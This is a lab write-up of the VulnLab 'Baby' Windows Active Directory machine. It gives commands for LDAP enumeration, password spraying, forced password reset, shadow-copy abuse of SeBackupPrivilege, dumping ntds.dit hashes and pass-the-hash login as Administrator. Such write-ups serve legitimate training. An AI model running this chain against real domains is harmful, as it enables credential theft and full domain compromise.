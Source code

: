 ```yaml
---
layout: post
title: VulnLab - Baby
date: 15-04-2025
categories: [Machines]
tags: [ldap, anonymous, SeBackupPrivilege, smbpasswd]
image: "https://images-ext-1.discordapp.net/external/iTsNgpEcu1U88J1FvpyBi4VwhZZRBo0W6Rd5ARdznbE/https/assets.vulnlab.com/baby_slide.png?format=webp&quality=lossless"
---
```


In this write-up, I’ll walk you through the Active Directory lab "Baby" from Vulnlab, a solo Windows machine designed for junior-level users exploring Active Directory exploitation. The lab focuses on two fundamental techniques: LDAP enumeration, which involves querying the domain for information about users, groups, and other AD objects, and Windows privilege escalation through the abuse of SeBackupPrivilege, a misconfigured right that can be leveraged to gain SYSTEM-level access. 

## Scanning

```bash
➜  Baby nmap -Pn -T4 -sC -sV -p- 10.10.116.106 -oN reports/all_tcp.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 03:14 EAT
Nmap scan report for 10.10.116.106 (10.10.116.106)
Host is up (0.19s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-13 00:24:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-04-13T00:25:46+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2025-04-11T23:48:27
|_Not valid after:  2025-10-11T23:48:27
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   DNS_Tree_Name: baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-13T00:25:06+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
60933/tcp open  msrpc         Microsoft Windows RPC
60948/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-13T00:25:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 670.17 seconds

```

## Enumeration

### LDAP

**Anonymous Access**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl"
```

**Users**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "sAMAccountName:" | cut -d' ' -f2 | tee loots/users.txt
```
![alt text](/assets/screenshots/baby/1.png)

Descriptions

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "description:"
```
![alt text](/assets/screenshots/baby/2.png)

### SMB

```bash
nxc smb 10.10.116.106 -u loots/users.txt -p 'BabyStart123!' --continue-on-success
```
![alt text](/assets/screenshots/baby/3.png)

Password Change

```bash
smbpasswd -r 10.10.116.106 -U Caroline.Robinson
```

![alt text](/assets/screenshots/baby/4.png)

![alt text](/assets/screenshots/baby/5.png)

```bash
nxc smb 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!' --users
```

![alt text](/assets/screenshots/baby/6.png)

### Bloodhound

```bash
bloodhound-python -d baby.vl  -c all -u 'Caroline.Robinson' -p 'NewSecurePass123!'  -ns 10.10.116.106 --zip
```

![alt text](/assets/screenshots/baby/7.png)

First Degree Group Membership

![alt text](/assets/screenshots/baby/8.png)

## Initial Access

```bash
nxc winrm 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![alt text](/assets/screenshots/baby/9.png)

```bash
evil-winrm -i 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![alt text](/assets/screenshots/baby/10.png)

## PrivEsc

![alt text](/assets/screenshots/baby/11.png)

vss.dsh

```bash
set context persistent nowriters
set metadata c:\programdata\cyb4x.cab
set verbose on
add volume c: alias cyb4x
create
expose %cyb4x% z:
```

![alt text](/assets/screenshots/baby/12.png)

```bash
diskshadow /s vss.dsh
```

![alt text](/assets/screenshots/baby/13.png)

Copying

```bash
robocopy /b z:\windows\ntds . ntds.dit
```

![alt text](/assets/screenshots/baby/14.png)

also

```bash
reg.exe save hklm\system system
```

download

![alt text](/assets/screenshots/baby/15.png)

Dump secrets

```bash
secretsdump.py -system system -ntds ntds.dit local
```

![alt text](/assets/screenshots/baby/16.png)

Access as administrator
```
evil-winrm -i 10.10.89.186 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
```
![alt text](/assets/screenshots/baby/16.png)